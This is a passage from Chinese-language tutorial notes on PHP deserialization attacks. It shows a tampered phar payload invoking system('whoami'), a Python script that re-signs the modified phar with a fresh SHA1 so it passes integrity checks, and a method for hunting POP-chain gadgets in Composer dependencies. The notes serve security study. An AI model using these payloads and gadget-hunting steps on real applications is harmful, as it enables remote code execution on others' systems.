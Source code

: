     *   这里利用数组修改，直接将phar文件中后面的索引值改为0即`a:2:{i:0;O:4:"Test":1:{s:4:"code";s:17:"system('whoami');";}i:0;i:1;}`

    *   利用脚本给修改后的文件，重新写上签名，保证phar文件的完整性

        ```python
        import gzip
        from hashlib import sha1
        
        file = open("arsenetang.phar","rb").read()
        
        text = file[:-28]  #读取开始到末尾除签名外内容
        
        last = file[-8:]   #读取最后8位的GBMB和签名flag
        
        new_file = text+sha1(text).digest() + last  #生成新的文件内容，主要是此时sha1正确了。
        
        open("arsenetang2.phar","wb").write(new_file)
        
        ```

### 1.9 Autoloading与（反）序列化威胁与 Composer

#### 1.9.1 基础知识

*   PHP只能unserialize()那些定义了的类

*   传统的PHP要求应用程序导入每个类中的所有类文件，这样就意味着每个PHP文件需要一列长长的include或require方法，**而在当前主流的PHP框架中，都采用了Autoloading自动加载类来完成这样繁重的工作。**在完善简化了类之间调用的功能的同时，也为序列化漏洞造成了便捷。

*   Autoloading能实现自动加载当前文件下的类的环境

*   Composer：
    *   Composer是PHP用来管理依赖（dependency）关系的工具。你可以在自己的项目中声明所依赖的外部工具库（libraries），Composer       会帮你安装这些依赖的库文件。类似maven。
    *   经常搭建框架环境的同学应该对这个非常熟悉了，无论是搭建一个新的Laravel还是一个新的Symfony，安装步骤中总有一步是通过Composer来进行安装。

    *   比如在安装Laravel的时候，执行composer       global require "laravel/installer"就可以搭建成以下目录结构的环境：

其中已经将环境所需的依赖库文件配置完毕，正是因为Composer与Autuoloading的有效结合，才构成了完整的POP数据流。

#### 1.9.2 反序列化漏洞的挖掘：

-   概述
    -   通过上面对Composer的介绍，我们可以看出，Composer所拉取的依赖库文件是一个框架的基础。
    -   而Composer默认是从Packagist来下载依赖库的。所以我们挖掘漏洞的思路就可以从依赖库文件入手。
    -   目前总结出来两种大的趋势，还有一种猜想：
        -   1.从可能存在漏洞的依赖库文件入手
        -   2.从应用的代码框架的逻辑上入手
        -   3.从PHP语言本身漏洞入手

*   依赖库：

    -   以下这些依赖库，准确来说并不能说是依赖库的问题，只能说这些依赖库存在我们想要的文件读写或者代码执行的功能。而引用这些依赖库的应用在引用时并没有完善的过滤，从而产生漏洞。

    -   寻找依赖库漏洞的方法，可以说是简单粗暴：

        -   首先在依赖库中使用RIPS或grep全局搜索__wakeup()和__destruct()
        -   从最流行的库开始，跟进每个类，查看是否存在我们可以利用的组件（可被漏洞利用的操作）
        -   手动验证，并构建POP链
